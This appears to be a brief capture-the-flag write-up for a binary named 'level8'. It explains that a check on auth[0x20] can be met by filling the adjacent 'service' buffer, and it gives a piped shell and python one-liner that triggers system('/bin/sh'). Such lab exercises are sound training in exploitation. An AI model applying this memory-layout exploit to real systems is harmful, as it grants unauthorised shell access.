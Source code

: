 Exploit: Hard-coded condition to access the `system("\bin\sh")`.

The condition is `auth[0x20] != NULL`. We just have to write some data in `service` since it is placed write after auth in the memory.

```
   ((echo "auth AAAA"; python -c 'print "service " + "B" * 16'; echo "login"); echo "whoami") | ./level8 
```